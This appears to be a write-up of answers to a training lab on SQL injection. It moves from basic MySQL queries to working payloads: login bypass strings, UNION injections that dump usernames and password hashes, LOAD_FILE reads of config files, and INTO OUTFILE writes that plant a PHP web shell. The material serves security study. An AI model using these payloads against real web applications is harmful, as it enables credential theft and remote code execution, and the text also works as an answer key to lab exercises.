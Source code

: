 ## Intro to MySQL

>**Q. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

mysql -u root -h 94.237.59.206 -P 35744 -p

SHOW DATABASES;

## SQL Statements

>**Q. What is the department number for the 'Development' department?**

SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM departments;

## Query Results

>**Q. What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

SELECT * FROM employees WHERE first_name LIKE 'Bar%' AND hire_date = '1990-01-01';

## SQL Operators

>**Q. In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

SELECT * FROM titles;

SELECT * FROM titles WHERE emp_no > 10000 OR title !='engineer';



## Subverting Query Logic

>**Q. Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

tom' OR '1'='1

## Using Comments

>**Q. Login as the user with the id 5 to get the flag.**

user' OR id=5)--    

## Union Clause

>**Q. Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

mysql -u root -h 94.237.54.69 -P 59629 -p

SHOW DATABASES;

USE employees;

SHOW TABLES;

SELECT * FROM employees;

SELECT * FROM departments; 

SELECT dept_no FROM departments UNION SELECT emp_no FROM employees;

## Union Injection

>**Q. Use a Union injection to get the result of 'user()'**

' order by 1-- -

es' UNION select 1,2,3,4-- -

' UNION select 1,@@version,3,4-- -

es' UNION select 1,user(),3,4-- -

## Database Enumeration

>**Q. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

cn' UNION select 1, username, password, 4 from users-- -

## Reading Files

>**Q. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

## Writing Files

>**Q. Find the flag by using a webshell.**

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'<?php system(ls); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("dir /var/www"); ?>', "", "" into outfile '/var/www/html/shell1.php'-- -

cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell10.php'-- -

## Skills Assessment - SQL Injection Fundamentals

>**Q. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

' or 1=1 limit 1 -- -+

cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- -

cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
